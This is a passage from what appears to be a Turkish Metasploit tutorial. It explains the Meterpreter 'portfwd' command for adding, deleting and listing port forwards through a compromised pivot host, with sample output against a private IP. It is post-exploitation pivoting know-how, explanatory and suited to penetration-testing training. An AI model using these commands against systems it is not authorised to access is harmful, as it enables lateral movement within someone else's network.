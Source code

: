 
```bash
meterpreter > portfwd add –l 3389 –p 3389 –r  **[**target host]
```



`-l 3389` Yerel bilgisayarımızda dinleme yapacağımız Port numarası



`-p 3389` Hedef bilgisayar Port numarasıdır.



`-r [target host]` hedef bilgisayar IP adresidir.



Şimdi port yönlendirmeyi yapalım.


```bash
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.191
> Local TCP relay created: 0.0.0.0:3389 >-> 172.16.194.191:3389
meterpreter > 
```



## Yönlendirme Silme



Silme işlemini de **pivot** bilgisayar oturumunda iken aşağıdaki örnekte olduğu gibi yapabiliriz.


```bash
meterpreter > portfwd delete –l 3389 –p 3389 –r 172.16.194.191
> Successfully stopped TCP relay on 0.0.0.0:3389
meterpreter > 
```



## Yönlendirmeleri Listeleme



Aktif olan yönlendirmeleri `portfwd list` komutuyla yapabiliriz.


```bash
meterpreter > portfwd list
0: 0.0.0.0:3389 -> 172.16.194.191:3389
1: 0.0.0.0:1337 -> 172.16.194.191:1337
2: 0.0.0.0:2222 -> 172.16.194.191:2222

3 total local port forwards.
meterpreter >
```



## Tüm Yönlendirmeleri Temizleme
